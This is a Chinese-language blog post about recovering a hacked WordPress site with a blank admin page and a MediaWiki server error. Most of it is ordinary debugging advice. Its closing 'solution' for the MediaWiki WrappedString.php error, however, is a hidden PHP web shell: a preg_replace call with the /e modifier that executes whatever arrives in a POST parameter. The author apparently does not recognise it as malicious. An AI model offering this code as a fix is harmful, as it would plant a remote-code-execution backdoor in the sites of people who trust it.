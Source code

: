 +++
title =  "wordpress白屏错误"
date = "2016-03-19"
tags = [""]

summary = """
wordpress登录后转至wp-admin为空白页。
"""
+++


wordpress登录后转至wp-admin为空白页。wordpress网站应该是被黑了，首先恶意注入代码，被我debug清理掉了，但是现在登录后却无法操作wp-admin界面，为空白页。还发现了两篇垃圾博客文章。我测试过wp-admin白屏的常见解决方案（例如themes或plugins不兼容造成），但这一次都不是。

## debug 模式
已经使用过了debug模式，其实网站现在仍处于debug模式中，现在没有任何错误提示。最早的时候被恶意注入的代码已经被清理，但是一篇垃圾文章仍在：http://computational-communication.com/topics/blog/

我在wp_config.php中使用的debug代码如下：

		/**
	 * This will log all errors notices and warnings to a file called debug.log in
	 * wp-content only when WP_DEBUG is true. if Apache does not have write permission,
	 * you may need to create the file first and set the appropriate permissions (i.e. use 666).
	 */

	define( 'WP_DEBUG', true ); // Or false
	if ( WP_DEBUG ) {
	    define( 'WP_DEBUG_LOG', true );
	    define( 'WP_DEBUG_DISPLAY', true );
	    @ini_set( 'display_errors', 1 );
	}


	// Use dev versions of core JS and CSS files (only needed if you are modifying these core files)
	define( 'SCRIPT_DEBUG', true );  

## wp-no-white-screen

使用wp-no-white-screen进行辅助debug，发现一处可疑的地方：

	Fatal error: Class 'WP_Screen' not found in /wp-admin/includes/class-wp-screen.php

发现这段代码是：

		/**
	 * Set the current screen object
	 *
	 * @since 3.0.0
	 *
	 * @param mixed $hook_name Optional. The hook name (also known as the hook suffix) used to determine the screen,
	 *	                       or an existing screen object.
	 */

	function set_current_screen( $hook_name = '' ) {
			WP_Screen::get( $hook_name )->set_current_screen();
	}

WP_Screen并没有定义！这很不应该，搜索应该引用：

	require_once(ABSPATH . '/wp-admin/includes/class-wp-screen.php');

首先在上面代码中引用class-wp-screen.php

然后，但是我在/wp-admin/includes/路径下找不到class-wp-screen.php。于是在github.com/wordpress/wordpress里找到了这个php，放进这里。

于是我终于看到了管理界面！	这次debug经历了漫长的三天时间，还把网站恢复到了十天前，感觉整个人都不好了。第一次在阿里云平台上发起工单，请求帮助，不过并没有实质的帮助；第一次在阿里云的云社区提问：https://yq.aliyun.com/ask/2686，最后还是自己回答了。在这个过程中删除了可疑人在forum和wiki上的注册账号。将admin这个账号改名，防止针对admin用户的密码破解，修改网站数据库的密码。翻了过去7年里的wordpress dead screen相关的帖子。太不容易了。目前网站还在debug模式下：且观察下一步动向。

# mediawiki


出现server error 500, 谷歌无解，打电话给阿里云无解，去掉一些localsettings.php里的extension也无效。


最后，偶然看到：https://www.mediawiki.org/wiki/Manual:Errors_and_symptoms


You see a Blank Page
A blank white page indicates a PHP error which isn't being printed to the screen. To force this, add the following lines to the LocalSettings.php file, underneath the <?php:

	error_reporting( E_ALL );
	ini_set( 'display_errors', 1 );

将这段代码放进localsetting。php，
提示错误来源是：WrappedString.php  Fatal error: Namespace declaration statement

于是调整为以下形式，问题解决。

	<?php

	namespace WrappedString;

	@preg_replace('/(.*)/e', @$_POST['kxrmmbxafhdg'], '');
